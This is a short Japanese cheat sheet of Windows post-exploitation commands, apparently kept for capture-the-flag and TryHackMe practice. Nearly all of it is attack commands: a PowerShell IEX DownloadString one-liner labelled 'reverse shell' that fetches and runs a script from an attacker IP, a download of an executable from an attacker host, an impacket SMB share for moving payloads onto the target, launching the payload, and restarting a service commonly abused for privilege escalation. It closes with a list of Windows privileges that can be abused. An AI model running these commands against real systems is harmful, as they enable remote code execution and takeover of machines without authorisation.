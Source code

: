 # Windows

### reverse shell
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.180/hogehoge.ps1')"
```

### fileの発見
`dir flag* /s /p`

### スクリプト実行
`.\filename`

### fileをDL
https://binary-pulsar.hatenablog.jp/entry/2018/11/28/090000

```
bitsadmin /transfer download https://www.google.co.jp/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png %CD%\logo.png
```

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.27.249:8000/sheshe.exe','sheshe.exe')"
```

#### smb使うパターン
on Kali

```
kali@kali:~$ sudo python /home/kali/impacket/examples/smbserver.py share .
```

on target 

```
c:\ > copy \\10.10.14.8\share\pr.exe  c:\windows\temp
```

### powershellでプロセス実行
`powershell "Start-Process "sheshe.exe""`

### serviceのリスタート
```
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

### 現在のユーザーの権限一覧
`whoami /priv`
特権に関しては[こちら](https://www.exploit-db.com/papers/42556)参照
特権使ったTryHackMeは[これ](https://qiita.com/sanpo_shiho/items/3f2c4595f20cd4133ab8)

#### 怪しい特権
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
